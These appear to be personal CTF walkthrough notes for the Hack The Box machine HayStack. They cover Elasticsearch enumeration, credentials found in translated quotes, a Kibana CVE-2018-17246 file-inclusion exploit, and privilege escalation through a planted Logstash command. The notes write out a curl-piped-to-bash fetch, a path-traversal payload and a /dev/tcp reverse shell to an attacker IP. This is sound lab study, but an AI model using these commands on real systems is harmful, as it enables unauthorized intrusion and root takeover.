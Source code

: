 # HTB_Ippsec_Note

# HayStack Machine - 10.10.10.115

nmap -sC -sV -oA nmap/haystack 10.10.10.115

Navigate to 10.10.10.115 --> Simple Photo

Lets check robots.txt

Navigate to 10.10.10.115/robots.txt --> 404 not Found

Save the image and run tools like exiftool etc.

root@kali: exiftool ~/Downloads/needle.jpg --> File Modification Date --Today

Sometimes Downloading file via browser changes the modification Meta Data

So Try downloading file via wget or curl

root@kali: wget http://10.10.10.115/needle.jpg

root@kali: exiftool needle.jpg  --> File Modification Date -- 2019:01:25

Navigate to 10.10.10.115:9200 --> You'll see a json output (Clustername: Elastic search version 6.4.2)

Google

Elastic Search api 6.4

Kibana is front End to this.

In Elastic search API documentation--> 

Cat APIs

10.10.10.115:9200/_cat/master

10.10.10.115:9200/_cat/master?v--> For verbose


You can also try --> curl http://10.10.10.115:9200/_cat/master?v

To know the commands --> curl http://10.10.10.115:9200/_cat

For DataBases --> curl http://10.10.10.115:9200/_cat/indices

For Verbose Databases --> curl http://10.10.10.115:9200/_cat/indices?v

For Help --> curl http://10.10.10.115:9200/_cat/indices?help

DOC APIs

curl http://10.10.10.115:9200/quotes/_doc/1
curl http://10.10.10.115:9200/quotes/_doc/2
curl http://10.10.10.115:9200/quotes/_doc/3

curl http://10.10.10.115:9200/quotes/_search 


curl http://10.10.10.115:9200/quotes/_search | jq . ---> To see beautified Json

Or you can use

curl http://10.10.10.115:9200/quotes/_search?pretty

curl -s http://10.10.10.115:9200/quotes/_search | jq . ---> -s for silent--Removed curl headers from output

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq . --> Only return One Item

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq .hits --> One Object down in JSON

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits' --> One More level down in JSON

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0]' --> Get rit of "[" because with 0 we are refering to first json element.

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0] .source' --> Next Item down 

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0] .source .quote'

curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .source .quote' --> .hits[]--> Will give all quotes


curl http://10.10.10.115:9200/_cat/indices?v

green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb      
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0      
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0     

curl -s http://10.10.10.115:9200/bank/_search?size=1 | jq '.'--> For bank info

curl -s http://10.10.10.115:9200/bank/_search?size=1000 | jq '.hits .hits[] ._source .email'


curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .source .quote' --> Result of this is in spanish


vi exploit.py

import requests, json

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=1')
quotes = json.loads(r.text)

for quote in quotes['hits']['hits']:
	q = quote['_source']['quote']
	print(q)
	print() --> for Line break between two quotes


*** Google --> Python translate google" --> https://pypi.org/project/googletrans/

#pip3 install googletrans


vi exploit.py

import requests, json
from googletrans import Translator

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=253')
quotes = json.loads(r.text)
translator = Translator()

for quote in quotes['hits']['hits']:
	q = quote['_source']['quote']
	qt = (translator.translate(q)).text
	print(qt)
	print() --> for Line break between two quotes



python3 exploit.py | tee quotes-translated.txt --> tee will print the output on console and in file simultaneouslt

cat quotes-translated.txt | grep -i password --> -i for ignore case
cat quotes-translated.txt | grep -i secret
cat quotes-translated.txt | grep -i key --> Give Some base64 encode values

# echo -n dXnlcjogc2VjdXJpdHkg | base64 -d --> user : security
# echo -n <other base64 value> | base64 -d --> pass : spanish.is.key


ssh security@10.10.10.115

password - spanish.is.key

security@haystack 

[security@haystack $] curl 10.10.14.3:8000/LinEnum.sh | bash


* Result showed

127.0.0.1:5601 - Kibana generally

Generally logstash has its own user but here it is running as root

[security@haystack $] curl 127.0.0.1:5601

ssh port forwarding using -L

or shortcut

[security@haystack $] ~C
ssh> -L 5602:127.0.0.1:5601
Forwarding port.


in New terminal 

root@kali# ss -ln

--> we are listening on 127.0.0.1:5602

Now navigate to kali browser and open 127.0.0.1:5602--> You'll kibana loading

Management tab --> Kibana version 6.4.2

Google -> Kibana 6.4.2 exploit

 https://github.com/mpgn/CVE-2018-17246

[security@haystack $] cd /dev/shm
[security@haystack $] vi rev.js

paste the expoit js code given in exploit and edit your IP to get reverse shell

root@kali# nc -nlvp 1337


root@kali# curl 'http://localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/rev.js'



root@kali# nc -nlvp 1337

ls 

--> we got reverse shell

python -c 'import pty;pty.spawn("/bin/bash")'

CTRL+Z

root@kali# stty raw -echo

FG --> you won't see this getting typed

bash-4.25$ whoami
kibana

bash-4.25$ find / -user kibana -ls 2>/dev/null --> To see what we have access to
bash-4.25$ find / -group kibana -ls 2>/dev/null --> To see what we have access to

bash-4.25$ ls /etc/logstash
bash-4.25$ cd /etc/logstash
bash-4.25$ ls -la 

cd conf.d
cat filter.conf
cat input.conf
cat output.conf

export Term=xterm --> Now you can clear the screen

vi /opt/kibana/logstash_pleasesubscribe

Ejecutar comando : touch /dev/shm/LeaveAComment
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.3/9001 0>&1

bash-4.25$ watch -n 1 ls -la /dev/shm


root@kali# nc -nlvp 9001

[root@haystack ~]#
